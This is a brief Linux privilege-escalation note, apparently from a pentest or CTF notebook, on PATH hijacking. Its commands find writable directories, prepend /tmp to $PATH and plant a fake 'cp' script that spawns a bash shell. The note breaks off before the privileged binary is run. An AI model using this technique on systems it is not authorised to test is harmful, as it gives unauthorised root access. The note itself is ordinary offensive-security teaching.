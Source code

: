 # PATH

we start to know all paths are stored

![image.png](<../../../.gitbook/assets/image (1) (1).png>)

then we want to know what are folder is writable

```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

we compare if any writable folder is path or not if not found we try to add this folder in `$PATH`

```bash
export PATH=/tmp:$PATH
# replace /tmp to your path
```

then we will create a malicious file

```bash
echo -e '#!/bin/bash\n/bin/bash' > /tmp/cp
chmod +x /tmp/cp
```
